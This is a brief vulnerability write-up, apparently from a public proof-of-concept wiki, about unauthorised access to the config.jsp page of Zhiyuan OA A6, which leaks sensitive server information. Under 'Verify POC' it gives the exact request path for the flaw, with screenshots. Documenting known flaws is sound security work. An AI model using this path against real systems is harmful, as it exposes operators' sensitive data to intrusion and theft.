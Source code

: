 # Zhiyuan OA A6 config.jsp Sensitive information leakage vulnerability

## Vulnerability Description

Zhiyuan OA A6 config.jsp page can be accessed unauthorized, resulting in a vulnerability for sensitive information leakage. The attacker can obtain sensitive information in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646054177060-6bebaa85-7683-4dd3-8120-39a633481f14.png)

Verify POC

```javascript
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646054254418-c88d4b28-ec92-4b79-80a4-7f9d4f1421fb.png)